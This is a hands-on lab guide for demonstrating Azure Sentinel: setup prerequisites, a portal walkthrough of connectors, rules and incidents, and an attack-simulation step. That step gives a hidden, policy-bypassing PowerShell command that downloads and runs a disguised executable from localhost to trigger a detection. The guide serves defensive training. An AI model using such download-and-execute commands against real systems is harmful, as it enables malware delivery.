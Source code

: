 # **Demo 12: Azure Sentinel**

## What is Azure Sentinel?

Microsoft Azure Sentinel is a scalable, cloud-native, security information event management (SIEM) and security orchestration automated response (SOAR) solution. Azure Sentinel delivers intelligent security analytics and threat intelligence across the enterprise, providing a single solution for alert detection, threat visibility, proactive hunting, and threat response.

Azure Sentinel is your birds-eye view across the enterprise alleviating the stress of increasingly sophisticated attacks, increasing volumes of alerts, and long resolution time frames.

- **Collect data at cloud scale** across all users, devices, applications, and infrastructure, both on-premises and in multiple clouds. 

- **Detect previously undetected threats**, and minimize false positives using Microsoft's analytics and unparalleled threat intelligence. 

- **Investigate threats with artificial intelligence**, and hunt for suspicious activities at scale, tapping into years of cyber security work at Microsoft. 

- **Respond to incidents rapidly** with built-in orchestration and automation of common tasks.

![ws name.](media/sentinel1.png)

To on-board Azure Sentinel, you first need to enable Azure Sentinel, and then connect your data sources. Azure Sentinel comes with a number of connectors for Microsoft solutions, available out of the box and providing real-time integration, including Microsoft 365 Defender (formerly Microsoft Threat Protection) solutions, Microsoft 365 sources (including Office 365), Azure AD, Microsoft Defender for Identity (formerly Azure ATP), Microsoft Cloud App Security, Azure Defender alerts from Azure Security Center, and more.

## Global prerequisites

- Active Azure Subscription, if you don't have one, create a [free account](https://azure.microsoft.com/free/?WT.mc_id=A261C142F) before you begin.

- Log Analytics workspace. Learn how to [create a Log Analytics workspace](https://docs.microsoft.com/en-us/azure/azure-monitor/logs/quick-create-workspace). For more information about Log Analytics workspaces, see [Designing your Azure Monitor Logs deployment](https://docs.microsoft.com/en-us/azure/azure-monitor/logs/design-logs-deployment).

- To enable Azure Sentinel, you need contributor permissions to the subscription in which the Azure Sentinel workspace resides.

- To use Azure Sentinel, you need either contributor or reader permissions on the resource group that the workspace belongs to.

- Additional permissions may be needed to connect specific data sources.

- Azure Sentinel is a paid service. For pricing information see [About Azure Sentinel](https://go.microsoft.com/fwlink/?linkid=2104058).

## **Task 1: Demo and Walkthrough of Azure Sentinel**

1. Sign in to the Azure portal and search for and select Azure Sentinel.

![ws name.](media/sentinel2.png)

2. Click on **log-analytics-avd-prod-EUS1-001**

![ws name.](media/sentinel3.png)

3. Click on **Data Connectors** and highlight the Connected Data connectors

![ws name.](media/sentinel4.png)

4. Click on **Azure Active Directory** and then click on **Open connector page**

![ws name.](media/sentinel5.png)

5. On this page you can highlight the **Sign-In** Logs checkbox which indicates that the AAD Sign Logs are now being sent over to Azure Sentinel.

![ws name.](media/sentinel6.png)

6. Click on **Next steps**; On this page you can highlight the **Relevant analytics templates** and showcase the in-built Rules that you can create for various types of events.

![ws name.](media/sentinel7.png)

7. Click on **Analytics**; On this page you can highlight the **Active Rules** and showcase the in-built Rules.

![ws name.](media/sentinel8.png)

8. Click on **Incidents**; On this page you can highlight the **Open, New and Active Incidents**. These are Test incidents generated as a result of a simulated malicious command line.

![ws name.](media/sentinel9.png)

9. Select any of the Incidents; Click on **Actions**, and then click on **Investigate**.

![ws name.](media/sentinel10.png)

10. On this page you can highlight the level of details that is shown, like how the process was run, what other child processes were created, who exceuted the process, etc.

![ws name.](media/sentinel11.png)

## **Task 2: Attack Simulation**

1. Using AVD Client on your JumpVM, Login to any of the Session Desktops with any of the User Accounts.

2. Open CMD as non-Admin, and execute the below Commandline.

       ```
       powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'
       ```

![ws name.](media/sentinel12.png)

    This should take couple of minutes to report to Defender and then eventually being captured by Azure Sentinel. In sometime you should be able to see a new Incident getting created for the above malicious command execution.

![ws name.](media/sentinel13.png)